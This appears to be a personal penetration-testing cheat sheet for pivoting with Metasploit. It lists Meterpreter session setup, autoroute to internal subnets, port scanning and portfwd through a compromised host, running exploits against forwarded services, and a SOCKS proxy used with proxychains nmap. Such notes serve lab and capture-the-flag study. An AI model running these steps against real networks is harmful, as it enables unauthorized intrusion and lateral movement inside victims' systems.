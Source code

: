  <h2> Proxying </h2> <br>
 
  If you have a MSFCONSOLE shell on a machine (generate payload via msfvenom if needed and run and set multi/handler on msfconsole <br>
  background session -- background <br>
  use post/multi/manage/autoroute <br>
  set SESSION 1 (change if more than 1 session) <br>
  set SUBNET 10.200.3.0 (change to submet needed) <br>
  exploit <br>
  msfconsole<br>
pivoting, check ifconfig when you have a shell on the machine if you have a meterpreter shell, are there multiple nics?<br>
if yes, use autoroute<br>
background session -- background<br>
use post/multi/manage/autoroute<br>
set SESSION 1 (change if more than 1 session)<br>
set SUBNET 10.200.3.0 (change to submet needed)<br>
exploit<br>
if that doesnt work make sure your back in your session and run (change IPs) -- meterpreter > run autoroute -s 192.181.243.1/24 <br>
now you can use further auxiliary commands against the machine pivoting towards<br>
has nmap command which can be used with script comnmand --script(useful for pivoting)<br>
  background <br>
  for portscan - use auxiliary/scanner/portscan/tcp <br>
  set options and set everything <br>
  run <br>
  Identify ports of interest, now need to configure port forward. <br>
  access the session -- sessions -i NUMBER <br>
  ensure meterpreter shell and type -- portfwd add -l (PORT TO FORWARD, e.g. 555) -p (PORT ATTACKING) -r victimIP <br>
  background session <br>
  Now perform nmap -sV -sC scan on ported for e.g. -p 555 localhost still in msfconsole console
  Once found an exploit for version type -- search SERVICE and use whatever exploit <br>
  set IP to actual machines ip 
  exploit 
  
  
  <h2> Proxychains </h2>
  <br>
   If you have a MSFCONSOLE shell on a machine (generate payload via msfvenom if needed and run and set multi/handler on msfconsole <br>
  background session -- background <br>
  use post/multi/manage/autoroute <br>
  set SESSION 1 (change if more than 1 session) <br>
  set SUBNET 10.200.3.0 (change to submet needed) <br>
  exploit <br>
  Now setup proxy <br>
 use auxiliary/server/socks_proxy <br>
 set VERSION 4a <br>
  type -- run <br>
 should not need to edit conf as working on my machine (/etc/proxychains.conf) <br>
 type --- proxychains nmap -T4 IP/CIDR and look for "OK" <br>
 every command is the same just add proxychains before
  
